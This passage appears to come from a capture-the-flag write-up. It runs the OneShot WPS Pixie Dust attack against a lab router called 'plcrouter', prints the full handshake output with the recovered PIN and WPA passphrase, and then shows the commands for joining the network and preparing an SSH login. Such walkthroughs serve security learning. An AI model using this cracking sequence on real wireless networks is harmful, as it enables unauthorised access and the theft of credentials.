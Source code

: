 
```bash
root@attica01:/tmp# sudo ./oneshot -i wlan0 -b 02:00:00:00:01:00 -K
[*] Running wpa_supplicant...
[*] Trying pin 12345670...
[*] Scanning...
[*] Authenticating...
[+] Authenticated
[*] Associating with AP...
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response...
[*] Received WPS Message M1
[P] E-Nonce: 12a26e9723ebc5765d9814a74f2269fe
[*] Building Message M2
[P] PKR: 062e258070376dd42f20a41c262c748272e317d0854db67c2689b642294af7e43779cae09b62b0b2b9ba5a7372663973118a2342dfef710b8751444c8a12c5d74e11deb23eba93792be1844bc555dd16df61f4a3ab9608fb27e629e25828c636b5e8a2d926d392791046495a983db5d28576f60b61b512f66d4ba36cd30112301326efdb9ee32ba5eabe2aa00da58438a45874a276e5442827d9354da2089a25b3ade8262f206151a50aa345c4d510713ad43564af6d5910c2ac6aad9e3cfb2c
[P] PKE: 52c474f0e7eb5f9ed674e606a9a3f21181a479cc0e7835464816ca0777a797c1bcee230db9053f2d5daaaeb94886d5f91c2daa45432d3f1749c9a53e10e62ed55026f19cbedb74f576e14ec22f6521c380e1c6243dcdb89f8a92a8b03f48d019d6d23adac310c78d60b29dc08bb22fb4d45a7e7ad3cb6c4b7a7fcb38e78cf2d4dd8960b5876baf45b3bf17e93004461807263c81d45f6ba1d6963d888d17e21a498df6d32a9ebe177582d5fc3181ad00cf3a452f1f518109368448226f47a0b0
[P] Authkey: 07676c49566cdb8749b04f0dc69908f3f349a67b735743789fd344324584d3d4
[*] Received WPS Message M3
[P] E-Hash1: a461c163bcfe950ad5e17f1f1465a38c5f563b8250563fb593fca76df68f388c
[P] E-Hash2: f20c65b749a8ca6479e8f824957d638c1e9250c4dd2c2790111f544b916259c3
[*] Building Message M4
[*] Received WPS Message M5
[*] Building Message M6
[*] Received WPS Message M7
[+] WPS PIN: 12345670
[+] WPA PSK: NoWWEDoKnowWhaTisReal123!
[+] AP SSID: plcrouter
```

Now we have all the information that we need to connect to Wifi.

So, we have to create a configuration file and to do this we can use [wpa_passphrase](https://linux.die.net/man/8/wpa_passphrase) passing the SSID and password as parameters.

`wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config`

After that, we can use [wpa_supplicant](https://linux.die.net/man/8/wpa_supplicant) to control the wireless connection, with the following options:

* -B to run daemon in the background;
* -c <filename> to set the configuration file;
* -i <interface> to set the interface.

The command is therefore: `wpa_supplicant -B -c config -i wlan0`.

Also, since no IP is assigned to the wlan0 interface, we assign it manually with the command `ifconfig wlan0 192.168.1.5 netmask 255.255.255.0`.

So let's try to connect via ssh to *192.168.1.1* (the default IP for the router).
